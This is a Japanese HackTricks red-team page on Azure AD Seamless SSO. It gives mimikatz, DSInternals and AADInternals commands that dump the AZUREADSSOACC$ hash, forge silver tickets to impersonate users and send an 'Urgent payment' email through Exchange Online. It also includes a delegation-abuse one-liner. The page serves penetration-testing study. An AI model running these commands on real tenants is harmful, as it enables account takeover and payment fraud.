 # Az - シームレスSSO

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>！</strong></a></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
- **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

## 基本情報

[公式ドキュメントから：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On（Azure AD Seamless SSO）は、**ユーザーが企業ネットワークに接続された企業デバイス上にいるときに自動的にサインイン**します。有効になっている場合、**ユーザーはAzure ADにサインインするためにパスワードを入力する必要がなく**、通常はユーザー名さえ入力する必要がありません。この機能により、ユーザーはオンプレミスコンポーネントを追加する必要なく、クラウドベースのアプリケーションに簡単にアクセスできます。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

基本的に、Azure AD Seamless SSOは、**オンプレミスドメインに参加したPC上にいるユーザーをサインイン**します。

[**PHS（Password Hash Sync）**](phs-password-hash-sync.md)および[**PTA（Pass-through Authentication）**](pta-pass-through-authentication.md)の両方でサポートされています。

デスクトップSSOは、認証に**Kerberos**を使用しています。構成されると、Azure AD ConnectはオンプレミスADに**AZUREADSSOACC`$`**というコンピューターアカウントを作成します。`AZUREADSSOACC$`アカウントのパスワードは構成中に**平文でAzure ADに送信**されます。

**Kerberosチケット**はパスワードのNTHash（MD4）で**暗号化**され、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**は、Kerberos **チケット**を受け入れる**エンドポイント**（https://autologon.microsoftazuread-sso.com）を公開しています。ドメイン参加済みマシンのブラウザは、SSOのためにこれらのチケットをこのエンドポイントに転送します。

### オンプレミス -> クラウド

ユーザー**`AZUREADSSOACC$`のパスワードは変更されません**。したがって、ドメイン管理者はこのアカウントのハッシュを妨害し、それを使用して**任意のオンプレユーザーを同期してAzureに接続するためのシルバーチケットを作成**することができます。
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、今後は**シルバーチケットを生成**できます:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
以下はシルバーチケットを利用するために実行すべき手順です：

1. **ブラウザの起動:** Mozilla Firefoxを起動します。
2. **ブラウザの設定:**
* **`about:config`** に移動します。
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) の設定を指定された[値](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)に設定します:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Webアプリケーションへのアクセス:**
* 組織のAADドメインと統合されたWebアプリケーションにアクセスします。一般的な例として[Office 365](https://portal.office.com/)があります。
4. **認証プロセス:**
* ログオン画面で、ユーザー名を入力し、パスワード欄は空白のままにします。
* 続行するには、TABキーまたはENTERキーを押します。

{% hint style="success" %}
これはMFAが有効な場合はバイパスされません
{% endhint %}

#### ~~クラウド専用ユーザー向けのKerberosチケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory管理者がAzure AD Connectにアクセスできる場合、**任意のクラウドユーザーにSIDを設定**できます。これにより、クラウド専用ユーザー向けにもKerberos **チケットを作成**できます。唯一の要件は、SIDが適切な[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))であることです。

{% hint style="danger" %}
クラウド専用の管理者ユーザーのSIDを変更することは、現在**Microsoftによってブロックされています**。\
詳細については、[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)を確認してください。
{% endhint %}

### オンプレミス -> クラウドへのリソースベースの制約付き委任を介した移動 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

このアカウントが含まれるコンテナまたはOU内のコンピューターアカウント（`AZUREADSSOACC$`）を管理できる人は、**そのアカウントに対してリソースベースの制約付き委任を構成してアクセス**できます。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) でゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローする**
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
